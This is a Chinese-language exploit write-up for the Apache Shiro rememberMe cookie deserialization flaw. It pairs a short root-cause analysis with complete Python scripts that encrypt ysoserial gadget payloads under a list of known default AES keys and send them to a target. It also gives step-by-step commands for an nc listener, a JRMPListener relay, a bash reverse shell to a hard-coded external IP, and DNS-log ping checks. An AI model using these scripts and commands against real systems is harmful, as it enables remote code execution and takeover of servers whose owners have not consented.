










# Shiro

​	Apache Shiro 是ASF旗下的一款开源软件，提供了一个强大而灵活的安全框架。可为任何应用提供安全保障，从命令行应用、移动应用到大型网络及企业应用。

​	Apache Shiro提供了认证、授权、加密和会话管理功能，将复杂的问题隐藏起来，提供清晰直观的API使开发者可以很轻松地开发自己的程序安全代码。并且在实现此目标时无须依赖第三方的框架、容器或服务，当然也能做到与这些环境的整合，使其在任何环境下都可拿来使用。

​	shiro的功能


## 原理分析

 shiro默认使用了CookieRememberMeManager，其处理cookie的流程是：得到rememberMe的cookie值-->Base64解码-->AES解密-->反序列化。然而AES的密钥是硬编码的，就导致了攻击者可以构造恶意数据造成反序列化的RCE漏洞。 


**getRememberedSerializedIdentity : 187,  CookieRememberMeManager (org.apache.shiro.web.mgt)**

首先从http请求中获取cookie，如果cookie值不等于"deleteMe"


调用ensurePadding来对取得的cookie填充`=`号


调用base64解码，返回一个bytes数组


**getRememberedPrincipals:393, AbstractRememberMeManager (org.apache.shiro.mgt)**





调用convertBytesToPrincipals进行解密和反序列化





跟进decrypt函数，可以知道iv是encrypted的前16bytes，key是在AbstractRememberMeManager中定义的默认KEY，可以自己修改，大部分情况都是默认



最后把解密的数据给desirialize进行反序列化，反序列化的过程中调用了readObject


## 如何确定目标使用shiro

通过登录页面是否返回rememberme字段


## 利用步骤


公网VPS上需要准备编译好的ysoserial.jar，或者自己下载源码重新编译


python脚本中需要用到pycrypto模块

```
apt-get install python-dev
pip install pycrypto
```


生成cookie的脚本

```
import sys
import uuid
import base64
import subprocess
from Crypto.Cipher import AES


def encode_rememberme(command):
    popen = subprocess.Popen(['java', '-jar', 'ysoserial.jar', 'JRMPClient', command], stdout=subprocess.PIPE)
    BS = AES.block_size
    pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()
    key = base64.b64decode("kPH+bIxk5D2deZiIxcaaaA==")
    iv = uuid.uuid4().bytes
    encryptor = AES.new(key, AES.MODE_CBC, iv)
    file_body = pad(popen.stdout.read())
    base64_ciphertext = base64.b64encode(iv + encryptor.encrypt(file_body))
    return base64_ciphertext


if __name__ == '__main__':
    payload = encode_rememberme(sys.argv[1])    
print "rememberMe={0}".format(payload.decode())
```

```
python2 create_payload.py "ping -n 3 66fysa.ceye.io || ping -c 3 66fysa.ceye.io"
```

得到构造好的rememberme的cookie，带着cookie去访问target就好


生成payload并发包的脚本：

```
#coding: utf-8
import os
import re
import time
import base64
import uuid
import subprocess
import requests
from Crypto.Cipher import AES
#JAR_FILE = 'ysoserial-master-SNAPSHOT.jar'
JAR_FILE = 'ysoserial.jar'
keys = ['Z3VucwAAAAAAAAAAAAAAAA==','kPH+bIxk5D2deZiIxcaaaA==','4AvVhmFLUs0KTA3Kprsdag==','3AvVhmFLUs0KTA3Kprsdag==','2AvVhdsgUs0FSA3SDFAdag==','wGiHplamyXlVB11UXWol8g==','fCq+/xW488hMTCD+cmJ3aQ==','1QWLxg+NYmxraMoxAXu/Iw==','ZUdsaGJuSmxibVI2ZHc9PQ==','L7RioUULEFhRyxM7a2R/Yg== ','6ZmI6I2j5Y+R5aSn5ZOlAA==','r0e3c16IdVkouZgk1TKVMg==','ZWvohmPdUsAWT3=KpPqda','5aaC5qKm5oqA5pyvAAAAAA==','bWluZS1hc3NldC1rZXk6QQ==','a2VlcE9uR29pbmdBbmRGaQ==','WcfHGU25gNnTxTlmJMeSpw==','LEGEND-CAMPUS-CIPHERKEY==','3AvVhmFLUs0KTA3Kprsdag==']
lis = ["BeanShell1","C3P0","Clojure","CommonsBeanutils1","CommonsCollections1","CommonsCollections2","CommonsCollections3","CommonsCollections4","CommonsCollections5","CommonsCollections6","FileUpload1","Groovy1","Hibernate1","Hibernate2","JBossInterceptors1","JRMPClient","JRMPListener","JSON1","JavassistWeld1","Jdk7u21","Jython1","MozillaRhino1","Myfaces1","Myfaces2","ROME","Spring1","Spring2","URLDNS","Wicket1",]
#keys = ['4AvVhmFLUs0KTA3Kprsdag==','']
def poc(url, rce_command,key,func):
    if '://' not in url:
        target = 'https://%s' % url if ':443' in url else 'http://%s' % url
    else:
        target = url
    try:
        payload = generator(rce_command, JAR_FILE,key,func)  # 生成payload
        #print payload
        print payload.decode()
        #exit()
        r = requests.get(target, cookies={'rememberMe': payload.decode()}, timeout=10,verify=False)  # 发送验证请求
    except Exception, e:
        print(e)
        pass
    return False
def generator(command, fp,aeskey,func):
    if not os.path.exists(fp):
        raise Exception('jar file not found!')
    
    popen = subprocess.Popen(['java', '-jar', fp,func, command],stdout=subprocess.PIPE)
 
    BS = AES.block_size
    pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()
    key = aeskey
    mode = AES.MODE_CBC
    iv = uuid.uuid4().bytes
    encryptor = AES.new(base64.b64decode(key), mode, iv)
    file_body = pad(popen.stdout.read())
    base64_ciphertext = base64.b64encode(iv + encryptor.encrypt(file_body))
    return base64_ciphertext
poc('http://192.168.66.38:86','39.108.99.6:1099',keys[1],'JRMPClient')   #www.test.com替换成目标主机的链接，114.118.80.138替换成自己VPS的地址

```


自己改写了一下

```
#coding: utf-8
import sys
import os
import uuid
import base64
import subprocess
import requests
from Crypto.Cipher import AES

JAR_FILE = 'ysoserial.jar'
keys = ['Z3VucwAAAAAAAAAAAAAAAA==','kPH+bIxk5D2deZiIxcaaaA==','4AvVhmFLUs0KTA3Kprsdag==','3AvVhmFLUs0KTA3Kprsdag==','2AvVhdsgUs0FSA3SDFAdag==','wGiHplamyXlVB11UXWol8g==','fCq+/xW488hMTCD+cmJ3aQ==','1QWLxg+NYmxraMoxAXu/Iw==','ZUdsaGJuSmxibVI2ZHc9PQ==','L7RioUULEFhRyxM7a2R/Yg== ','6ZmI6I2j5Y+R5aSn5ZOlAA==','r0e3c16IdVkouZgk1TKVMg==','ZWvohmPdUsAWT3=KpPqda','5aaC5qKm5oqA5pyvAAAAAA==','bWluZS1hc3NldC1rZXk6QQ==','a2VlcE9uR29pbmdBbmRGaQ==','WcfHGU25gNnTxTlmJMeSpw==','LEGEND-CAMPUS-CIPHERKEY==','3AvVhmFLUs0KTA3Kprsdag==']
lis = ["BeanShell1","C3P0","Clojure","CommonsBeanutils1","CommonsCollections1","CommonsCollections2","CommonsCollections3","CommonsCollections4","CommonsCollections5","CommonsCollections6","FileUpload1","Groovy1","Hibernate1","Hibernate2","JBossInterceptors1","JRMPClient","JRMPListener","JSON1","JavassistWeld1","Jdk7u21","Jython1","MozillaRhino1","Myfaces1","Myfaces2","ROME","Spring1","Spring2","URLDNS","Wicket1",]


def poc(url, rce_command,key,func):
    if '://' not in url:
        target = 'https://%s' % url if ':443' in url else 'http://%s' % url
    else:
        target = url
    try:
        payload = generator(rce_command, JAR_FILE,key,func)  # 生成payload
        print payload.decode()
        r = requests.get(target, cookies={'rememberMe': payload.decode()}, timeout=10,verify=False)  # 发送验证请求
    except Exception, e:
        print(e)
        pass
    return False

def generator(command, fp,aeskey,func):
    if not os.path.exists(fp):
        raise Exception('jar file not found!')
    
    popen = subprocess.Popen(['java', '-jar', fp,func, command],stdout=subprocess.PIPE)
 
    BS = AES.block_size
    pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()
    key = aeskey
    mode = AES.MODE_CBC
    iv = uuid.uuid4().bytes
    encryptor = AES.new(base64.b64decode(key), mode, iv)
    file_body = pad(popen.stdout.read())
    base64_ciphertext = base64.b64encode(iv + encryptor.encrypt(file_body))
    return base64_ciphertext


if __name__ == '__main__':
	try:
		poc(sys.argv[1],sys.argv[2],keys[1],'CommonsCollections2')
	except Exception,e:
		print '''
		
usage: python2.exe ./Shiro_exploit.py http://192.168.66.38:86 "touch success"
		
		'''
```


**开始利用**

1.在VPS上监听反弹shell的命令

```
nc -lvp 4444
```


2.在VPS上启动ysoserial的JRMPListener服务

```
java -cp ysoserial.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections4 "反弹shell的命令"

java -cp ysoserial.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections2 "bash -i >& /dev/tcp/39.108.99.6/10086 0>&1"
```

CommonsCollections4也可以换成CommonsCollections2或者其他


3.运行python脚本本地也可以

```
python shiro_exp_payload.py vpsip:1099
```

python脚本将生成cookie



将cookie带入http请求中即可反弹shell



观察VPS上的Listenner已经接收到访问








在docker中已经发现wget的test文件，内容也没错，但是在执行的时候



却没成功，使用bash就成功了，这可能是sh和bash的差异造成的



一般优先使用bash


假如要sh与bash起同样作用，可以

```
rm -rf /bin/sh
ln -s /bin/bash /bin/sh
```


很奇怪，为什么直接反弹shell会不成功，下载文件然后执行就可以成功，留坑


## 无回显的情况下

针对无回显的命令执行漏洞，让目标机执行`wget`、`nc`或者`curl`等命令，然后在公网主机监听对应的端口，通过日志来判断命令是否被执行。


该方法可行，不过缺陷有以下几点：


- 修改了目标机的文件系统
- 不具有通用性，如windows没有nc、linux没有wget的情况。
- 涉及到TCP数据传输，执行速度慢


一种更好的方式是使用dns日志来判断命令是否执行，流程如下：

- 生成一个特殊的域名，如 66fysa.ceye.io
- 构造payload让目标机执行 ping 66fysa.ceye.io

登录dns服务后台，如果后台记录了该域名的dns查询记录，即证明目标存在命令执行。


使用`ping`命令的时候有个坑，大部分linux系统执行`ping xxxx`时候会一直ping下去，而不是win里面执行4次之后退出。 
解决方案：使用 `ping -n 3 xxx.com || ping -c 3 xxx.com` 可以解决该问题并保证兼容性。


实际情况中会遇到很多入口与出口不同的情况，即我们向主机A发送payload，但是主机B执行了我们的ping命令。这时我们dns日志中的IP与A的IP无法匹配，就会造成漏报。 

解决方案：为每次验证生成独立、随机的域名，如`[random].shiro.xxx.com`，在`[random]`处使用10位随机字符或者递增的数字。这样只要以该域名为准查找日志，即可同时匹配到入口和出口主机IP。


需要主义服务器上的依赖版本选择不同的Conmoncollecctions